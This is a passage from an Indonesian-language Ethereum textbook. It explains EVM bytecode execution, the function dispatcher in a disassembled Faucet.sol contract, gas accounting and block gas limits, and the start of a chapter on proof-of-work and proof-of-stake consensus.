Berikutnya adalah `MSTORE`, yang merupakan operasi penyimpanan memori yang menyimpan nilai ke memori EVM. Ini mengambil dua argumen dan, seperti kebanyakan operasi EVM, memperolehnya dari *stack*. Untuk setiap argumen, *stack* di-"pop"; yaitu, nilai teratas di *stack* diambil dan semua nilai lain di *stack* digeser satu posisi ke atas. Argumen pertama untuk `MSTORE` adalah alamat *word* di memori tempat nilai yang akan disimpan akan diletakkan. Untuk program ini kita memiliki `0x40` di atas *stack*, jadi itu dihapus dari *stack* dan digunakan sebagai alamat memori. Argumen kedua adalah nilai yang akan disimpan, yaitu `0x60` di sini. Setelah operasi `MSTORE` dieksekusi, *stack* kita kosong lagi, tetapi kita memiliki nilai `0x60` (96 dalam desimal) di lokasi memori `0x40`.

*Opcode* berikutnya adalah `CALLVALUE`, yang merupakan *opcode* lingkungan yang mendorong jumlah ether (diukur dalam wei) yang dikirim dengan panggilan pesan yang memulai eksekusi ini ke atas *stack*.

Kita bisa terus melangkah melalui program ini dengan cara ini sampai kita memiliki pemahaman penuh tentang perubahan *state* tingkat rendah yang disebabkan oleh kode ini, tetapi itu tidak akan membantu kita pada tahap ini. Kita akan kembali lagi nanti di bab ini.

### Kode Penempatan (*Deployment*) Kontrak

Ada perbedaan penting namun halus antara kode yang digunakan saat membuat dan menempatkan kontrak baru di platform Ethereum dan kode dari kontrak itu sendiri. Untuk membuat kontrak baru, diperlukan transaksi khusus yang memiliki kolom `to` diatur ke alamat khusus `0x0` dan kolom `data`-nya diatur ke kode inisiasi kontrak. Ketika transaksi pembuatan kontrak seperti itu diproses, kode untuk akun kontrak baru **bukanlah** kode di kolom `data` dari transaksi tersebut. Sebaliknya, EVM diinisiasi dengan kode di kolom `data` transaksi yang dimuat ke dalam ROM kode programnya, dan kemudian **output dari eksekusi kode penempatan itu** diambil sebagai kode untuk akun kontrak baru. Ini dilakukan agar kontrak baru dapat diinisialisasi secara terprogram menggunakan *world state* Ethereum pada saat penempatan, mengatur nilai-nilai dalam penyimpanan kontrak dan bahkan mengirim ether atau membuat kontrak baru lebih lanjut.

Saat mengompilasi kontrak secara *offline*, misalnya, menggunakan `solc` pada baris perintah, Anda bisa mendapatkan ***bytecode deployment*** atau ***bytecode runtime***.

***Bytecode deployment*** digunakan untuk setiap aspek inisialisasi akun kontrak baru, termasuk *bytecode* yang pada akhirnya akan dieksekusi ketika transaksi memanggil kontrak baru ini (yaitu, *bytecode runtime*) dan kode untuk menginisialisasi semuanya berdasarkan *constructor* kontrak.

***Bytecode runtime***, di sisi lain, adalah persis *bytecode* yang akhirnya dieksekusi ketika kontrak baru dipanggil, dan tidak lebih; itu tidak termasuk *bytecode* yang diperlukan untuk menginisialisasi kontrak selama penempatan.

Mari kita ambil kontrak sederhana `Faucet.sol` yang kita buat sebelumnya sebagai contoh:

```solidity
// Versi kompiler Solidity yang digunakan untuk menulis program ini
pragma solidity ^0.4.19;

// Kontrak pertama kita adalah sebuah faucet!
contract Faucet {

    // Memberikan ether kepada siapa saja yang meminta
    function withdraw(uint withdraw_amount) public {
        // Batasi jumlah penarikan
        require(withdraw_amount <= 100000000000000000);

        // Kirim jumlah tersebut ke alamat yang memintanya
        msg.sender.transfer(withdraw_amount);
    }

    // Menerima jumlah yang masuk
    function () public payable {}
}
```

Untuk mendapatkan *bytecode deployment*, kita akan menjalankan `solc --bin Faucet.sol`. Jika kita hanya menginginkan *bytecode runtime*, kita akan menjalankan `solc --bin-runtime Faucet.sol`.

Jika Anda membandingkan output dari perintah-perintah ini, Anda akan melihat bahwa *bytecode runtime* adalah **subset** dari *bytecode deployment*. Dengan kata lain, *bytecode runtime* sepenuhnya terkandung di dalam *bytecode deployment*.

### Membongkar (*Disassembling*) Bytecode

Membongkar *bytecode* EVM adalah cara yang bagus untuk memahami bagaimana Solidity tingkat tinggi bertindak di dalam EVM. Ada beberapa *disassembler* yang bisa Anda gunakan untuk melakukan ini:

  * **Porosity** adalah *decompiler open source* yang populer.
  * **Ethersplay** adalah *plug-in* EVM untuk Binary Ninja, sebuah *disassembler*.
  * **IDA-Evm** adalah *plug-in* EVM untuk IDA, *disassembler* lain.

Di bagian ini, kita akan menggunakan *plug-in* Ethersplay untuk Binary Ninja dan untuk memulai Gambar 13-2. Setelah mendapatkan *bytecode runtime* dari `Faucet.sol`, kita bisa memasukkannya ke Binary Ninja (setelah memuat *plug-in* Ethersplay) untuk melihat seperti apa instruksi EVM-nya.

<p align="center">
  
</p>

Saat Anda mengirim transaksi ke *smart contract* yang kompatibel dengan **ABI** (*Application Binary Interface*), yang mana dapat Anda asumsikan berlaku untuk semua kontrak, transaksi tersebut pertama kali berinteraksi dengan **dispatcher** *smart contract* tersebut. *Dispatcher* membaca kolom `data` dari transaksi dan mengirimkan bagian yang relevan ke fungsi yang sesuai. Kita bisa melihat contoh *dispatcher* di awal *bytecode runtime* `Faucet.sol` yang telah kita bongkar. Setelah instruksi `MSTORE` yang sudah kita kenal, kita melihat instruksi-instruksi berikut:

```
PUSH1 0x4
CALLDATASIZE
LT
PUSH1 0x3f
JUMPI
```

Seperti yang telah kita lihat, `PUSH1 0x4` menempatkan `0x4` ke atas *stack*, yang sebelumnya kosong. `CALLDATASIZE` mendapatkan ukuran dalam *byte* dari data yang dikirim bersama transaksi (dikenal sebagai **calldata**) dan mendorong angka tersebut ke atas *stack*. Setelah operasi-operasi ini dieksekusi, *stack* akan terlihat seperti ini:

<p align="center">
  
</p>

Instruksi berikutnya adalah `LT`, singkatan dari “*less than*” (kurang dari). Instruksi `LT` memeriksa apakah item teratas di *stack* lebih kecil dari item berikutnya di *stack*. Dalam kasus kita, instruksi ini memeriksa apakah hasil `CALLDATASIZE` kurang dari 4 *byte*.

## Penanda Fungsi (*Function Identifier*)

Mengapa EVM perlu memeriksa bahwa *calldata* dari transaksi setidaknya berukuran 4 *byte*? 🧐

Jawabannya terletak pada cara kerja **penanda fungsi**. Setiap fungsi dalam sebuah kontrak diidentifikasi oleh **4 *byte* pertama dari *hash* Keccak-256** tanda tangannya (*signature*). Dengan memasukkan nama fungsi beserta tipe argumennya ke dalam fungsi *hash* `keccak256`, kita dapat memperoleh penanda fungsinya. Dalam kasus kita:

```
keccak256("withdraw(uint256)") = 0x2e1a7d4d...
```

Jadi, penanda fungsi untuk fungsi `withdraw(uint256)` adalah `0x2e1a7d4d`, karena ini adalah 4 *byte* pertama dari *hash* yang dihasilkan.

Sebuah penanda fungsi **selalu memiliki panjang 4 *byte***. Oleh karena itu, jika seluruh kolom `data` dari transaksi yang dikirim ke kontrak berukuran kurang dari 4 *byte*, maka tidak mungkin transaksi tersebut berkomunikasi dengan fungsi mana pun, kecuali jika sebuah **fungsi *fallback*** telah didefinisikan. Karena kita mengimplementasikan fungsi *fallback* di `Faucet.sol`, EVM akan melompat ke fungsi tersebut ketika panjang *calldata* kurang dari 4 *byte*.

`LT` akan mengambil (melakukan *pop*) dua nilai teratas dari *stack*. Jika kolom `data` transaksi kurang dari 4 *byte*, `LT` akan mendorong nilai `1` (yang berarti `true`) ke atas *stack*. Jika tidak, ia akan mendorong `0` (`false`). Dalam contoh kita, mari kita asumsikan kolom `data` dari transaksi yang dikirim ke kontrak kita memang kurang dari 4 *byte*.

Instruksi `PUSH1 0x3f` kemudian mendorong *byte* `0x3f` ke atas *stack*. Setelah instruksi ini, *stack* akan terlihat seperti ini:

<p align="center">
  
</p>

Instruksi berikutnya adalah `JUMPI`, yang merupakan singkatan dari “***jump if***” (lompat jika). Cara kerjanya seperti ini:

```
jumpi(label, cond) // Lompat ke "label" jika "cond" bernilai benar (true)
```

Dalam kasus kita, `label` adalah `0x3f`, yaitu lokasi di mana fungsi *fallback* kita berada di dalam *smart contract*. Argumen `cond` adalah `1`, yang merupakan hasil dari instruksi `LT` sebelumnya.

Untuk merangkum seluruh urutan ini dengan kata-kata: **kontrak akan melompat ke fungsi *fallback* jika data transaksi berukuran kurang dari 4 *byte***.

Di lokasi `0x3f`, hanya ada instruksi `STOP` yang mengikutinya, karena meskipun kita mendeklarasikan fungsi *fallback*, kita membiarkannya kosong. Seperti yang dapat Anda lihat pada Gambar 13-3, seandainya kita tidak mengimplementasikan fungsi *fallback*, kontrak akan malah melemparkan *exception* (pengecualian).

<p align="center">
  
</p>

## Blok Pusat Dispatcher

Mari kita periksa blok pusat dari *dispatcher*. Dengan asumsi kita menerima *calldata* yang panjangnya lebih dari 4 *byte*, instruksi `JUMPI` **tidak akan** melompat ke fungsi *fallback*. Sebaliknya, eksekusi kode akan berlanjut ke instruksi-instruksi berikut:

```
PUSH1 0x0
CALLDATALOAD
PUSH29 0x1000000...
SWAP1
DIV
PUSH4 0xffffffff
AND
DUP1
PUSH4 0x2e1a7d4d
EQ
PUSH1 0x41
JUMPI
```

Instruksi `PUSH1 0x0` mendorong `0` ke atas *stack*, yang kini kembali kosong. Selanjutnya, `CALLDATALOAD` menerima argumen berupa indeks di dalam *calldata* yang dikirim ke *smart contract* dan membaca 32 *byte* dari indeks tersebut, seperti ini:

```
calldataload(p) // memuat 32 byte calldata dimulai dari posisi byte p
```

Karena `0` adalah indeks yang diberikan dari perintah `PUSH1 0x0`, `CALLDATALOAD` membaca **32 *byte*** *calldata* dimulai dari *byte* ke-0, lalu mendorongnya ke atas *stack* (setelah melakukan *pop* pada nilai `0x0` yang asli). Setelah instruksi `PUSH29 0x1000000…`, *stack* kemudian menjadi:

<p align="center">
  
</p>

Instruksi `SWAP1` menukar elemen teratas di *stack* dengan elemen tepat di bawahnya. Dalam kasus ini, instruksi ini menukar `0x1000000…` dengan *calldata*. *Stack* yang baru adalah:

<p align="center">
  
</p>

## Mengekstrak Penanda Fungsi dengan `DIV`

Instruksi berikutnya adalah `DIV`, yang bekerja sebagai berikut:

```
div(x, y) // pembagian integer x / y
```

Dalam kasus ini, `x` = 32 *byte calldata* yang dimulai dari *byte* 0, dan `y` = `0x100000000…` (total 29 *byte*). Bisakah Anda menebak mengapa *dispatcher* melakukan pembagian ini? 🤔 Berikut petunjuknya: kita sebelumnya membaca 32 *byte* dari *calldata*, dimulai dari indeks 0. **Empat *byte* pertama** dari *calldata* tersebut adalah **penanda fungsi**.

Nilai `0x100000000…` yang kita dorong sebelumnya memiliki panjang 29 *byte*, terdiri dari angka 1 di awal, diikuti oleh angka 0. Membagi 32 *byte calldata* kita dengan nilai ini secara efektif akan **menggeser bit ke kanan**, sehingga menyisakan **hanya 4 *byte* paling atas** dari *calldata* yang kita muat (dimulai dari indeks 0). Keempat *byte* ini—yaitu 4 *byte* pertama dalam *calldata*—adalah **penanda fungsi**, dan inilah cara EVM mengekstraknya.

Jika bagian ini belum jelas, coba bayangkan seperti ini: dalam basis 10 (desimal), `1234000 / 1000 = 1234`. Dalam basis 16 (heksadesimal), caranya tidak berbeda. Bedanya, setiap posisi angka merupakan kelipatan 16, bukan 10. Sama seperti membagi dengan $10^3$ (1000) dalam contoh kita yang lebih kecil hanya menyisakan digit-digit teratas, membagi nilai basis 16 kita yang berukuran 32-*byte* dengan nilai besar yang setara akan melakukan hal yang sama untuk mengisolasi 4 *byte* teratas.

Hasil dari operasi `DIV` (yaitu penanda fungsi) akan didorong ke atas *stack*, dan *stack* kita sekarang menjadi:

<p align="center">
  
</p>

Karena instruksi `PUSH4 0xffffffff` dan `AND` bersifat redundan (berlebihan) dalam konteks ini, kita dapat mengabaikannya sepenuhnya, karena *stack* akan tetap sama setelah keduanya selesai dieksekusi.

Instruksi `DUP1` menduplikasi item pertama di *stack*, yaitu **penanda fungsi**. Instruksi berikutnya, `PUSH4 0x2e1a7d4d`, mendorong penanda fungsi yang telah dihitung sebelumnya dari fungsi `withdraw(uint256)` ke atas *stack*. *Stack* sekarang menjadi:

<p align="center">
  
</p>

## Membandingkan Penanda Fungsi dengan `EQ`

Instruksi berikutnya, `EQ`, mengambil (*pop*) dua item teratas dari *stack* dan membandingkannya.

Di sinilah **dispatcher** melakukan tugas utamanya 🎯: ia membandingkan apakah **penanda fungsi** yang dikirim dalam kolom `msg.data` dari transaksi cocok dengan penanda fungsi dari `withdraw(uint256)`.

* Jika keduanya **sama**, `EQ` akan mendorong `1` (yang berarti `true`) ke atas *stack*. Nilai ini nantinya akan digunakan untuk melompat ke fungsi `withdraw`.
* Jika **berbeda**, `EQ` akan mendorong `0` (`false`) ke atas *stack*.

Dengan asumsi transaksi yang dikirim ke kontrak kita memang diawali dengan penanda fungsi untuk `withdraw(uint256)`, *stack* kita menjadi:

<p align="center">
  
</p>

Berikutnya, kita memiliki `PUSH1 0x41`, yang merupakan alamat lokasi fungsi `withdraw(uint256)` berada di dalam kontrak. Setelah instruksi ini, *stack* akan terlihat seperti ini:

<p align="center">
  
</p>

Instruksi `JUMPI` adalah yang berikutnya, dan sekali lagi ia menerima dua elemen teratas di *stack* sebagai argumen. Dalam kasus ini, kita memiliki `jumpi(0x41, 1)`, yang memberitahu EVM untuk mengeksekusi lompatan ke lokasi fungsi `withdraw(uint256)`, dan eksekusi kode fungsi tersebut pun dapat dilanjutkan.

## Kelengkapan Turing dan Gas

Seperti yang telah kita singgung sebelumnya, secara sederhana, sebuah sistem atau bahasa pemrograman dikatakan **Lengkap secara Turing (*Turing complete*)** jika ia dapat menjalankan program apa pun. Akan tetapi, kemampuan ini datang dengan sebuah peringatan yang sangat penting: beberapa program membutuhkan waktu selamanya untuk berjalan. Aspek penting dari hal ini adalah kita tidak dapat mengetahui, hanya dengan melihat sebuah program, apakah program tersebut akan berjalan selamanya atau tidak. Kita harus benar-benar menjalankan program tersebut dan menunggunya selesai untuk mengetahuinya. Tentu saja, jika program itu akan berjalan selamanya, kita harus menunggu selamanya untuk mengetahuinya. Ini disebut **masalah penghentian (*halting problem*)** dan akan menjadi masalah besar bagi Ethereum jika tidak diatasi.

Karena *halting problem*, komputer dunia Ethereum berisiko diminta untuk mengeksekusi program yang tidak pernah berhenti. Ini bisa terjadi karena ketidaksengajaan atau niat jahat. Kita telah membahas bahwa Ethereum bertindak seperti mesin *single-threaded*, tanpa penjadwal apa pun, sehingga jika terjebak dalam *loop* tak terbatas, ini berarti Ethereum akan menjadi tidak dapat digunakan.

Namun, dengan **gas**, ada solusinya: jika setelah jumlah komputasi maksimum yang telah ditentukan sebelumnya telah dilakukan dan eksekusi belum berakhir, eksekusi program akan **dihentikan oleh EVM**. Hal ini menjadikan EVM sebagai mesin yang **kuasi-Lengkap secara Turing (*quasi–Turing-complete*)**: ia dapat menjalankan program apa pun yang Anda masukkan, tetapi hanya jika program tersebut berhenti dalam jumlah komputasi tertentu. Batas itu tidak tetap di Ethereum—Anda dapat membayar untuk meningkatkannya hingga batas maksimum (disebut “**batas gas blok**” atau “***block gas limit***”), dan semua orang dapat setuju untuk meningkatkan maksimum itu seiring waktu. Meskipun demikian, pada satu waktu tertentu, ada batas yang berlaku, dan transaksi yang menghabiskan terlalu banyak gas saat dieksekusi akan dihentikan.

Di bagian-bagian berikut, kita akan membahas gas dan memeriksa cara kerjanya secara detail.

## Gas

**Gas** adalah unit Ethereum untuk mengukur sumber daya komputasi dan penyimpanan yang diperlukan untuk melakukan tindakan di *blockchain* Ethereum. Berbeda dengan Bitcoin, yang biaya transaksinya hanya memperhitungkan ukuran transaksi dalam kilobyte, Ethereum harus memperhitungkan setiap langkah komputasi yang dilakukan oleh transaksi dan eksekusi kode *smart contract*.

Setiap operasi yang dilakukan oleh transaksi atau kontrak memerlukan biaya sejumlah gas yang tetap. Beberapa contoh, dari Ethereum *Yellow Paper*:
* Menambahkan dua angka berbiaya **3 gas**
* Menghitung *hash* Keccak-256 berbiaya **30 gas + 6 gas** untuk setiap 256 bit data yang di-*hash*
* Mengirim sebuah transaksi berbiaya **21.000 gas**

Gas adalah komponen krusial dari Ethereum dan memiliki peran ganda: sebagai penyangga antara harga Ethereum (yang fluktuatif) dan imbalan bagi para penambang atas pekerjaan yang mereka lakukan, serta sebagai pertahanan terhadap serangan *denial-of-service* (DoS). Untuk mencegah *loop* tak terbatas yang tidak disengaja atau berbahaya atau pemborosan komputasi lainnya di jaringan, inisiator setiap transaksi diharuskan menetapkan batas jumlah komputasi yang bersedia mereka bayar. Dengan demikian, sistem gas memberikan disinsentif bagi penyerang untuk mengirimkan transaksi “spam”, karena mereka harus membayar secara proporsional untuk sumber daya komputasi, *bandwidth*, dan penyimpanan yang mereka konsumsi.

### Akuntansi Gas Selama Eksekusi

Ketika EVM dibutuhkan untuk menyelesaikan sebuah transaksi, pada awalnya ia diberikan **pasokan gas** yang sama dengan jumlah yang ditentukan oleh **batas gas (*gas limit*)** dalam transaksi tersebut. Setiap *opcode* yang dieksekusi memiliki biaya dalam gas, sehingga pasokan gas EVM berkurang seiring EVM melangkah melalui program. Sebelum setiap operasi, EVM memeriksa apakah ada cukup gas untuk membayar eksekusi operasi tersebut. Jika tidak ada cukup gas, eksekusi dihentikan dan transaksi dikembalikan (*reverted*).

Jika EVM mencapai akhir eksekusi dengan sukses, tanpa kehabisan gas, biaya gas yang digunakan dibayarkan kepada penambang sebagai biaya transaksi, yang dikonversi ke ether berdasarkan **harga gas (*gas price*)** yang ditentukan dalam transaksi:

`biaya penambang = biaya gas * harga gas`

Gas yang tersisa dalam pasokan gas dikembalikan kepada pengirim, sekali lagi dikonversi ke ether berdasarkan harga gas yang ditentukan dalam transaksi:

`sisa gas = batas gas - biaya gas`
`ether yang dikembalikan = sisa gas * harga gas`

Jika transaksi “kehabisan gas” selama eksekusi, operasi segera dihentikan, memunculkan pengecualian “*out of gas*”. Transaksi tersebut dikembalikan (*reverted*) dan semua perubahan pada *state* dibatalkan.

Meskipun transaksi tidak berhasil, pengirim akan tetap dikenakan biaya transaksi, karena penambang telah melakukan pekerjaan komputasi hingga titik tersebut dan harus diberi kompensasi untuk itu.

### Pertimbangan Akuntansi Gas

Biaya gas relatif dari berbagai operasi yang dapat dilakukan oleh EVM telah dipilih dengan cermat untuk melindungi *blockchain* Ethereum dari serangan dengan sebaik-baiknya. Anda dapat melihat tabel detail biaya gas untuk berbagai *opcode* EVM di Tabel C-1.

Operasi yang lebih intensif secara komputasi membutuhkan lebih banyak gas. Misalnya, mengeksekusi fungsi `SHA3` 10 kali lebih mahal (30 gas) daripada operasi `ADD` (3 gas). Lebih penting lagi, beberapa operasi, seperti `EXP`, memerlukan pembayaran tambahan berdasarkan ukuran operan. Ada juga biaya gas untuk menggunakan memori EVM dan untuk menyimpan data dalam penyimpanan *on-chain* sebuah kontrak.

Pentingnya mencocokkan biaya gas dengan biaya sumber daya di dunia nyata ditunjukkan pada tahun 2016 ketika seorang penyerang menemukan dan mengeksploitasi ketidaksesuaian biaya. Serangan tersebut menghasilkan transaksi yang sangat mahal secara komputasi, dan membuat *mainnet* Ethereum hampir berhenti total. Ketidaksesuaian ini diselesaikan melalui sebuah ***hard fork*** (dengan nama kode “Tangerine Whistle”) yang menyesuaikan biaya gas relatif.

### Biaya Gas vs. Harga Gas

Meskipun **biaya gas (*gas cost*)** adalah ukuran komputasi dan penyimpanan yang digunakan di EVM, gas itu sendiri juga memiliki **harga gas (*gas price*)** yang diukur dalam ether. Saat melakukan transaksi, pengirim menentukan harga gas yang bersedia mereka bayar (dalam ether) untuk setiap unit gas, memungkinkan pasar untuk memutuskan hubungan antara harga ether dan biaya operasi komputasi (seperti yang diukur dalam gas):

`biaya transaksi (dalam ether) = total gas yang digunakan * harga gas yang dibayar`

Saat membuat blok baru, penambang di jaringan Ethereum dapat memilih di antara transaksi yang tertunda dengan memilih transaksi yang menawarkan harga gas lebih tinggi. Menawarkan harga gas yang lebih tinggi akan memberi insentif kepada penambang untuk memasukkan transaksi Anda dan membuatnya dikonfirmasi lebih cepat.

Dalam praktiknya, pengirim transaksi akan menetapkan batas gas yang lebih tinggi dari atau sama dengan jumlah gas yang diperkirakan akan digunakan. Jika batas gas ditetapkan lebih tinggi dari jumlah gas yang dikonsumsi, pengirim akan menerima pengembalian dana dari jumlah berlebih, karena penambang hanya diberi kompensasi untuk pekerjaan yang benar-benar mereka lakukan.

Penting untuk memperjelas perbedaan antara **biaya gas** dan **harga gas**. Sebagai rekap:
* **Biaya Gas** adalah jumlah unit gas yang diperlukan untuk melakukan operasi tertentu.
* **Harga Gas** adalah jumlah ether yang bersedia Anda bayarkan per unit gas saat Anda mengirimkan transaksi Anda ke jaringan Ethereum.

> Meskipun gas memiliki harga, ia tidak dapat “dimiliki” atau “dibelanjakan”. Gas hanya ada di dalam EVM, sebagai hitungan seberapa banyak pekerjaan komputasi yang sedang dilakukan. Pengirim dikenakan biaya transaksi dalam ether, yang kemudian dikonversi menjadi gas untuk akuntansi EVM dan kemudian kembali menjadi ether sebagai biaya transaksi yang dibayarkan kepada penambang.

### Biaya Gas Negatif

Ethereum mendorong penghapusan variabel penyimpanan dan akun yang telah digunakan dengan mengembalikan sebagian gas yang digunakan selama eksekusi kontrak.

Ada dua operasi di EVM dengan biaya gas negatif:
* Menghapus kontrak (`SELFDESTRUCT`) bernilai pengembalian dana sebesar **24.000 gas**.
* Mengubah alamat penyimpanan dari nilai bukan nol menjadi nol (`SSTORE[x] = 0`) bernilai pengembalian dana sebesar **15.000 gas**.

Untuk menghindari eksploitasi mekanisme pengembalian dana, pengembalian dana maksimum untuk sebuah transaksi ditetapkan setengah dari jumlah total gas yang digunakan (dibulatkan ke bawah).

### Batas Gas Blok (*Block Gas Limit*)

**Batas gas blok** adalah jumlah maksimum gas yang dapat dikonsumsi oleh semua transaksi dalam satu blok, dan membatasi berapa banyak transaksi yang bisa muat dalam satu blok.

Sebagai contoh, katakanlah kita memiliki 5 transaksi yang batas gasnya telah ditetapkan menjadi 30.000, 30.000, 40.000, 50.000, dan 50.000. Jika batas gas blok adalah 180.000, maka empat dari transaksi tersebut dapat muat dalam satu blok, sementara yang kelima harus menunggu blok berikutnya.

Seperti yang telah dibahas sebelumnya, penambang memutuskan transaksi mana yang akan dimasukkan ke dalam blok. Penambang yang berbeda kemungkinan akan memilih kombinasi yang berbeda, terutama karena mereka menerima transaksi dari jaringan dalam urutan yang berbeda.

Jika seorang penambang mencoba memasukkan transaksi yang membutuhkan lebih banyak gas daripada batas gas blok saat ini, blok tersebut akan ditolak oleh jaringan. Sebagian besar klien Ethereum akan menghentikan Anda dari mengeluarkan transaksi semacam itu dengan memberikan peringatan seperti “transaksi melebihi batas gas blok.” Batas gas blok di *mainnet* Ethereum adalah 8 juta gas pada saat penulisan menurut [https://etherscan.io](https://etherscan.io), yang berarti sekitar 380 transaksi dasar (masing-masing menghabiskan 21.000 gas) dapat muat dalam satu blok.

#### Siapa yang memutuskan batas gas blok?

Para penambang di jaringan secara kolektif memutuskan batas gas blok. Individu yang ingin menambang di jaringan Ethereum menggunakan program penambangan, seperti Ethminer, yang terhubung ke klien Geth atau Parity Ethereum. Protokol Ethereum memiliki mekanisme bawaan di mana penambang dapat memberikan suara pada batas gas sehingga kapasitas dapat ditingkatkan atau diturunkan di blok-blok berikutnya. Penambang sebuah blok dapat memberikan suara untuk menyesuaikan batas gas blok dengan faktor 1/1.024 (0,0976%) ke arah mana pun. Hasilnya adalah ukuran blok yang dapat disesuaikan berdasarkan kebutuhan jaringan pada saat itu. Mekanisme ini digabungkan dengan strategi penambangan default di mana penambang memberikan suara pada batas gas yang setidaknya 4,7 juta gas, tetapi menargetkan nilai 150% dari rata-rata total penggunaan gas per blok baru-baru ini (menggunakan rata-rata bergerak eksponensial 1.024 blok).

## Kesimpulan

Dalam bab ini kita telah menjelajahi Mesin Virtual Ethereum, menelusuri eksekusi berbagai *smart contract* dan melihat bagaimana EVM mengeksekusi *bytecode*. Kita juga telah membahas gas, mekanisme akuntansi EVM, dan melihat bagaimana ia memecahkan *halting problem* serta melindungi Ethereum dari serangan *denial-of-service*. Selanjutnya, di Bab 14, kita akan melihat mekanisme yang digunakan oleh Ethereum untuk mencapai konsensus terdesentralisasi.

---

# BAB 14
## Konsensus

Sepanjang buku ini kita telah membicarakan tentang “**aturan konsensus**”—aturan yang harus disetujui oleh semua orang agar sistem dapat beroperasi secara terdesentralisasi, namun tetap deterministik. Dalam ilmu komputer, istilah **konsensus** sudah ada sebelum *blockchain* dan berkaitan dengan masalah yang lebih luas tentang sinkronisasi *state* dalam sistem terdistribusi, sehingga para peserta yang berbeda dalam sistem terdistribusi semuanya (pada akhirnya) menyetujui satu *state* tunggal di seluruh sistem. Proses ini disebut “mencapai konsensus.”

Ketika menyangkut fungsi inti dari pencatatan dan verifikasi yang terdesentralisasi, akan menjadi masalah jika hanya mengandalkan kepercayaan untuk memastikan bahwa informasi yang berasal dari pembaruan *state* adalah benar. Tantangan yang cukup umum ini menjadi sangat menonjol dalam jaringan terdesentralisasi karena **tidak ada entitas pusat** untuk memutuskan apa yang benar.

Tidak adanya entitas pusat pengambilan keputusan adalah salah satu daya tarik utama platform *blockchain*, karena menghasilkan kapasitas untuk menahan sensor dan tidak adanya ketergantungan pada otoritas untuk mendapatkan izin mengakses informasi. Namun, manfaat ini ada harganya: tanpa arbiter tepercaya, setiap perselisihan, penipuan, atau perbedaan perlu diselesaikan dengan cara lain. **Algoritma konsensus** adalah mekanisme yang digunakan untuk mendamaikan keamanan dan desentralisasi.

Dalam *blockchain*, konsensus adalah properti kritis dari sistem. Sederhananya, ada uang yang dipertaruhkan! Jadi, dalam konteks *blockchain*, konsensus adalah tentang kemampuan untuk mencapai *state* bersama, sambil mempertahankan desentralisasi. Dengan kata lain, konsensus dimaksudkan untuk menghasilkan sistem **aturan yang ketat tanpa penguasa**. Tidak ada satu orang, organisasi, atau kelompok yang “bertanggung jawab”; sebaliknya, kekuasaan dan kontrol disebarkan ke seluruh jaringan peserta yang luas, yang kepentingannya akan terpenuhi dengan mengikuti aturan dan berperilaku jujur.

Kemampuan untuk mencapai konsensus di seluruh jaringan terdistribusi, dalam kondisi yang penuh permusuhan (*adversarial*), tanpa memusatkan kontrol adalah prinsip inti dari semua *blockchain* publik yang terbuka. Untuk mengatasi tantangan ini dan mempertahankan properti desentralisasi yang berharga, komunitas terus bereksperimen dengan berbagai model konsensus. Bab ini akan menjelajahi model-model konsensus tersebut dan dampaknya yang diharapkan pada *blockchain smart contract* seperti Ethereum.

> Meskipun algoritma konsensus adalah bagian penting dari cara kerja *blockchain*, mereka beroperasi pada lapisan fundamental, jauh di bawah abstraksi *smart contract*. Dengan kata lain, sebagian besar detail konsensus tersembunyi dari para penulis *smart contract*. Anda tidak perlu tahu cara kerjanya untuk menggunakan Ethereum, sama seperti Anda tidak perlu tahu cara kerja *routing* untuk menggunakan internet.

## Konsensus melalui Proof of Work (PoW)

Pencipta *blockchain* asli, Bitcoin, menemukan algoritma konsensus yang disebut **proof of work (PoW)**. Dapat dikatakan, PoW adalah penemuan paling penting yang menopang Bitcoin. Istilah sehari-hari untuk PoW adalah “**penambangan**” (*mining*), yang seringkali menimbulkan kesalahpahaman tentang tujuan utama konsensus. Orang sering menganggap bahwa tujuan penambangan adalah penciptaan mata uang baru, karena tujuan penambangan di dunia nyata adalah ekstraksi logam mulia atau sumber daya lainnya. Sebaliknya, tujuan sebenarnya dari penambangan (dan semua model konsensus lainnya) adalah untuk **mengamankan *blockchain***, sambil menjaga agar kontrol atas sistem tetap terdesentralisasi dan tersebar di sebanyak mungkin peserta.

Hadiah berupa mata uang yang baru dicetak adalah **insentif** bagi mereka yang berkontribusi pada keamanan sistem: sebuah sarana untuk mencapai tujuan. Dalam hal ini, hadiah adalah sarana dan keamanan terdesentralisasi adalah tujuannya. Dalam konsensus PoW, ada juga “**hukuman**” yang sesuai, yaitu biaya energi yang diperlukan untuk berpartisipasi dalam penambangan. Jika peserta tidak mengikuti aturan dan tidak mendapatkan hadiah, mereka berisiko kehilangan dana yang telah mereka habiskan untuk listrik menambang. Dengan demikian, konsensus PoW adalah keseimbangan yang cermat antara risiko dan imbalan yang mendorong peserta untuk berperilaku jujur demi kepentingan diri sendiri.

Ethereum saat ini adalah *blockchain* PoW, karena menggunakan algoritma PoW dengan sistem insentif dasar yang sama untuk tujuan dasar yang sama: mengamankan *blockchain* sambil mendesentralisasi kontrol. Algoritma PoW Ethereum sedikit berbeda dari Bitcoin dan disebut **Ethash**. Kita akan memeriksa fungsi dan karakteristik desain algoritma ini di bagian selanjutnya.

## Konsensus melalui Proof of Stake (PoS)

Secara historis, *proof of work* bukanlah algoritma konsensus pertama yang diusulkan. Sebelum pengenalan *proof of work*, banyak peneliti telah mengusulkan variasi algoritma konsensus berdasarkan saham finansial, yang sekarang disebut **proof of stake (PoS)**. Dalam beberapa hal, *proof of work* ditemukan sebagai alternatif dari *proof of stake*. Mengikuti kesuksesan Bitcoin, banyak *blockchain* telah meniru *proof of work*. Namun ledakan penelitian tentang algoritma konsensus juga telah membangkitkan kembali *proof of stake*, secara signifikan memajukan teknologi tersebut. Sejak awal, para pendiri Ethereum berharap untuk pada akhirnya memigrasikan algoritma konsensusnya ke *proof of stake*. Faktanya, ada sebuah rintangan yang disengaja pada *proof of work* Ethereum yang disebut **bom kesulitan (*difficulty bomb*)**, yang dimaksudkan untuk secara bertahap membuat penambangan *proof-of-work* Ethereum menjadi semakin sulit, sehingga memaksa transisi ke *proof of stake*.

Pada saat buku ini diterbitkan, Ethereum masih menggunakan *proof of work*, tetapi penelitian yang sedang berlangsung menuju alternatif *proof-of-stake* hampir selesai. Algoritma PoS yang direncanakan Ethereum disebut **Casper**. Pengenalan Casper sebagai pengganti Ethash telah ditunda beberapa kali selama dua tahun terakhir, yang memerlukan intervensi untuk meredakan *difficulty bomb* dan menunda keusangan paksa dari *proof of work*.

